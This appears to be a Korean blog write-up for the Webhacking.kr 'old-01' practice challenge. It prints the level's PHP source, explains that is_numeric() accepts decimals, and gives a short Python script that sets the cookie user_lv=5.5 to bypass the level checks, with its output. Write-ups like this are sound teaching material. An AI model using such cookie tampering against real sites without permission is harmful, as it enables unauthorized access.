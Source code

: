 ```yaml
---
layout: post
title: old-01
author: bindon
category: Webhacking.kr
date: 2019-11-27
---
```


# Problem Analysis
![old-01-problem]({{site.url}}{{site.baseurl}}{{site.assets_path}}/img/posts/Web Hacking KR/old-01-problem.png){align="center"}

문제를 확인하면, 이 페이지에서는 사용자의 입력을 받는 부분이 따로 나타나지 않기 때문에, 바로 view-source 링크를 클릭하여 코드를 확인합니다.

```php
<?php
  include "../../config.php";
  if($_GET['view-source'] == 1){ view_source(); }
  if(!$_COOKIE['user_lv']){
    SetCookie("user_lv","1",time()+86400*30,"/challenge/web-01/");
    echo("<meta http-equiv=refresh content=0>");
  }
?>
<html>
<head>
<title>Challenge 1</title>
</head>
<body bgcolor=black>
<center>
<br><br><br><br><br>
<font color=white>
---------------------<br>
<?php
  if(!is_numeric($_COOKIE['user_lv'])) $_COOKIE['user_lv']=1;
  if($_COOKIE['user_lv']>=6) $_COOKIE['user_lv']=1;
  if($_COOKIE['user_lv']>5) solve(1);
  echo "<br>level : {$_COOKIE['user_lv']}";
?>
<br>
<a href=./?view-source=1>view-source</a>
</body>
</html>
```
코드의 상단 부분을 먼저 확인하면 쿠키가 없을 때 `user_lv` 에 1을 넣는것을 확인할 수 있고, 실제로 페이지에 아무런 조작 없이 접속했을 때 쿠키에 `user_lv=1`이 할당된 것을 확인할 수 있습니다.
코드의 하단 부분을 확인하면 세 가지의 if문을 통해 아래와 같이 로직을 나누고 있습니다.
1. `user_lv`가 is_numeric()을 통과하지 못하면 `user_lv`를 1로 설정
2. `user_lv`가 6 이상이면 `user_lv`를 1로 설정
3. `user_lv`가 5 초과라면 `solve(1)`을 실행

우리의 목적은 1, 2를 우회하여 3을 실행하는 것입니다.
1번 조건은 숫자를 입력하면 됩니다.
2번 조건을 우회하기 위해 6 미만의 숫자를 입력해야 합니다.
3번 조건을 만족하기 위해 5 초과의 숫자를 입력해야 합니다.
즉, `is_numeric()`을 통과하며 $$ 5 < user\_lv < 6 $$을 만족하면 됩니다.

해당 조건을 만족하는 수를 알기 위해서는 [`is_numeric()`](https://www.php.net/manual/en/function.is-numeric.php)함수의 특징을 알아야 합니다.
`is_numeric()`은 부호, 10진수, 지수(e), 소수점을 허용합니다. 예를 들어 +0123.45e6는 올바른 값입니다.
즉 우리는 소수점을 사용하여 1번 조건을 우회할 수 있다는 것을 파악하였으므로, $$ 5 < user\_lv < 6 $$를 만족할 수 있는 값을 사용하면 됩니다.
여기서는 `user_lv`를 `5.5`로 정의하여 사용할 예정입니다.

# Implementation
```python
from bindon import login

print "[+] Login and get session"
session = login.getSessionWithLogin()

print "[+] Set cookies"
cookies = {
    "user_lv": "5.5"
}

print "[+] Exploit"
response = session.get("https://webhacking.kr/challenge/web-01/", cookies=cookies)

print response.text
```

# Execution Result
```
[+] Login and get session
[+] Set cookies
[+] Exploit
<html>
<head>
<title>Challenge 1</title>
</head>
<body bgcolor=black>
<center>
<br><br><br><br><br>
<font color=white>
---------------------<br>
<script>alert('already solved');</script><br>level : 5.5<br>
<a href=./?view-source=1>view-source</a>
</body>
</html>
```